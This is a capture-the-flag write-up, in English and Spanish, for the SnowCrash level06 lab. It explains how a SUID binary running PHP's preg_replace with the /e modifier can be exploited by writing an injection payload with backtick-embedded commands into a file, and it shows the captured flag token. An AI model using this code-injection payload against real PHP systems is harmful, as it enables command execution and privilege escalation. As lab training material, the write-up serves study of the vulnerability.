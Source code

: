 # Flag 06

## Tools Used:

* `ls`, `cat`, `echo`
* Understanding of PHP, particularly `preg_replace` with the `/e` modifier (code execution vulnerability)

## Process:

Upon inspecting the files available in the `level06` home directory:

```bash
level06@SnowCrash:~$ ls -la
```

Key files found:

```
-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php
```

The `level06` binary has the **SUID** bit set and is owned by `flag06`. There is also a PHP script, which we examine:

```bash
level06@SnowCrash:~$ cat level06.php
```

The script uses `file_get_contents` and several `preg_replace` calls, including one with the deprecated and dangerous `/e` modifier, which allows execution of PHP code within regular expression replacements.

### Key observations:

1. The function `x` reads a file (passed as an argument) and applies regex replacements.
2. The `/e` modifier in `preg_replace` allows execution of the replacement string as PHP code.
3. We can inject code via a file to trigger command execution.

### Exploitation:

To exploit this, we:

1. Create a file containing malicious input using shell backticks to call `getflag`:

```bash
level06@SnowCrash:~$ echo '[x ${`getflag`}]' > uu4
```

2. Run the vulnerable binary on this file:

```bash
level06@SnowCrash:~$ ./level06 uu4
```

The output reveals the flag:

```
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
```

---

# Flag 06

## Herramientas Utilizadas:

* Comandos `ls`, `cat`, `echo`
* Conocimientos de PHP, especialmente de `preg_replace` con modificador `/e` (vulnerabilidad de ejecución de código)

## Proceso:

Al inspeccionar los archivos en el directorio de `level06`:

```bash
level06@SnowCrash:~$ ls -la
```

Archivos clave encontrados:

```
-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php
```

El ejecutable `level06` tiene el bit **SUID** y es propiedad de `flag06`. También hay un script PHP que analizamos:

```bash
level06@SnowCrash:~$ cat level06.php
```

El script usa `file_get_contents` y varias llamadas a `preg_replace`, incluyendo una con el modificador `/e`, que permite ejecutar código en tiempo de ejecución.

### Observaciones clave:

1. La función `x` lee un archivo (pasado como argumento) y aplica varias sustituciones regex.
2. El uso de `/e` en `preg_replace` permite la ejecución de código PHP malicioso.
3. Podemos inyectar código a través de un archivo para provocar la ejecución de comandos.

### Explotación:

Para explotar esta vulnerabilidad:

1. Creamos un archivo con entrada maliciosa que usa backticks para llamar a `getflag`:

```bash
level06@SnowCrash:~$ echo '[x ${`getflag`}]' > uu4
```

2. Ejecutamos el binario vulnerable usando este archivo:

```bash
level06@SnowCrash:~$ ./level06 uu4
```

El resultado devuelve la flag:

```
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
```

---

## Scripts Used:

```bash
echo '[x ${`getflag`}]' > filename
```

## Flag:

```
wiok45aaoguiboiki2tuin6ub
```
